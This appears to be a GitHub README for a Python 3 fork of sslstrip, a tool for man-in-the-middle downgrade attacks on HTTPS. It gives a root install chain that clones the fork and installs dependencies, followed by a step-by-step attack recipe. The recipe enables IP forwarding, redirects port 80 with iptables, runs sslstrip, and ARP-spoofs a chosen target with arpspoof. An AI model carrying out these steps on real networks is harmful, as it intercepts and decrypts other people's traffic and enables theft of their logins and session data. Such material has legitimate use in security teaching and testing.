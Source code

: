 ## This is a fork of sslstrip to works with python3

### Installing


----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
# Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
# Install as root:
```ShellSession
apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && sudo aptitude install python2.7-twisted-bin python-twisted-words python-twisted-runner python3-twisted-bin-dbg python-twisted-runner-dbg python-twisted python3-twisted python-twisted-names python-twisted-mail python-twisted-bin-dbg python-twisted-bin python-twisted-web python-twisted-conch python-twisted-news python-twisted-core python-twisted-libravatar twisted-doc python3-pytest-twisted python2.7-twisted-core python3-twisted-bin python2.7-twisted && pip install --upgrade --ignore-installed pyopenssl && pip3 install --upgrade --ignore-installed pyopenssl && python3 sslstrip.py -h
``` 





# Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

# More Info:
	http://www.thoughtcrime.org/software/sslstrip/
